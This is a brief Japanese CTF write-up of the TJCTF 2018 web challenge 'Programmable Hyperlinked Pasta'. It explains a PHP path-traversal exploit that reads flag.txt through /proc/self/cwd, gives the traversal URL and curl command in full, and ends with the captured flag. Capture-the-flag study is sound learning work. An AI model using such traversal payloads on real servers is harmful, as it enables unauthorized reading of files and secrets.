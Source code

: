 # Programmable Hyperlinked Pasta [Web]
```
Check out my new site! PHP is so cool!

programmable_hyperlinked_pasta.tjctf.org
```

# 解説見た
- https://www.youtube.com/watch?v=LwcPMK0scjQ&list=PL1H1sBF1VAKVmrjF1uWh5wK9a2IzmUjPc&index=21
- es.phpがある -> fileアクセスが可能
- phpだと思っていたけどディレクトリ系のらしい

- https://tcode2k16.github.io/blog/posts/tjctf-2018-writeup/
- `https://programmable_hyperlinked_pasta.tjctf.org/?lang=../../../../../../../../../proc/self/cwd/flag.txt`
- /に飛ぶ
- /proc/self/で現在のプログラムに飛ぶ
- /proc/self/cwd/でsymbolic linkらしい
- つまり、現在のプログラムのディレクトリのflag.txtというファイルにアクセスしている
- ` curl "https://programmable_hyperlinked_pasta.tjctf.org/?lang=../../../../../../../../../proc/self/cwd/flag.txt" > ans.txt`
- `tjctf{l0c4l_f1l3_wh4t?}` -> AC
